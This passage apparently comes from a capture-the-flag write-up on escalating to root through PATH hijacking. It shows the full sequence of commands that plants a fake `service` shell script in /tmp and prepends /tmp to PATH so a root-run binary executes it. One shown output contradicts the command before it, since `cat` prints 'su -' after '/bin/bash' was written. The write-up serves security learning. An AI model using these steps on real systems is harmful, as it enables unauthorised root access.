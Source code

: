 `status` is not listed in GTFO bins but running `strings` against it reveals how we might exploit it.  Strings shows us that `status` appears to make a call to another file named `service` using a relative reference (instead of using the full path).

    jose@midnight:~$ strings /usr/bin/status | grep service
    service ssh status

We can exploit this by creating our own `service` file and modifying `$PATH` to point to it instead.  When we run `status` then `service` will be executed with root permissions.

First we'll switch to `/tmp` where we have write permissions.
    
    jose@midnight:~$ cd /tmp

Next we will create a new `service` file and insert a payload to create a new root shell.

    jose@midnight:/tmp$ echo "/bin/bash" > service
    jose@midnight:/tmp$ cat service
    su -

We must modify our `service` script to be executable.

    jose@midnight:/tmp$ chmod 744 service

Then we will modify the path to include `/tmp`.

    jose@midnight:/tmp$ export PATH="/tmp:$PATH"

Finally we run `status`

    jose@midnight:~$ status
    root@midnight:/tmp#

We now have **root**!

----------------------------------------------------------------------------------------------------------------------------------------------------
	
	
	
	

  
 
 